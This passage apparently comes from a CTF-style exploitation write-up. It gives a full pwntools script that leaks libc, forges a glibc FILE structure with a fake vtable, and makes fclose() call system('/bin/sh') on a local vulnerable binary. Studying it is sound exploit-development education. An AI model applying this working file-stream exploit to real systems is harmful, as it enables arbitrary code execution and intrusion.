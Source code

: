 
If everything works well, once `fclose()` is called on our FILE struct, we'll manage to called `system("/bin/sh")`. I used pwntools to interact with the vulnerable program and accomplish the above, here's the full script:

```python
#!/bin/python3
from pwn import *

context.arch = "amd64"
c = constants

PROGNAME = "./vuln"
p = process(PROGNAME)
elf = ELF(PROGNAME)
libc = elf.libc

def get_leak():
    p.recvuntil(": ")
    leak = int(p.recvline(),16)
    return leak

stdout_addr = get_leak()

# set libc base
libc.address = stdout_addr - libc.symbols['_IO_2_1_stdout_']
log.info('libc base is 0x%x' % libc.address)

system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b"/bin/sh"))
log.info('/bin/sh addr at 0x%x' % binsh_addr)

# binsh addr needs to be even
assert(binsh_addr % 2 == 0)
# if not, searching for b"sh\x00" should do the trick

# to ensure fclose() calls _io_str_overflow, vtable address should be placed
# such that vtable+0x10 points to _io_str_overflow
_io_str_overflow_addr = libc.symbols['_IO_file_jumps'] + 0xd8
fake_vtable_addr = _io_str_overflow_addr - 0x10

# need addr that points to NULL for _lock: should be in a rw segment
null_ptr = elf.symbols['fake_file'] + 0x80
log.info("null_ptr at 0x%x" % null_ptr)

# construct a file struct
file_struct = FileStructure(null=null_ptr)
file_struct._IO_buf_base = 0
file_struct._IO_buf_end = int((binsh_addr - 100) / 2)
file_struct._IO_write_ptr = int((binsh_addr - 100) / 2)
file_struct._IO_write_base = 0
file_struct.vtable = fake_vtable_addr
payload = bytes(file_struct)

# at offset 0xe0 should be function ptr we want to call (fp->._s_allocate_buffer)
payload += p64(system_addr)

remaining_size = 0x200 - len(payload)
payload += (remaining_size * b"\x00")
log.info("Payload length: 0x%x" % len(payload))

p.sendafter("structure:", payload)
p.interactive()
```
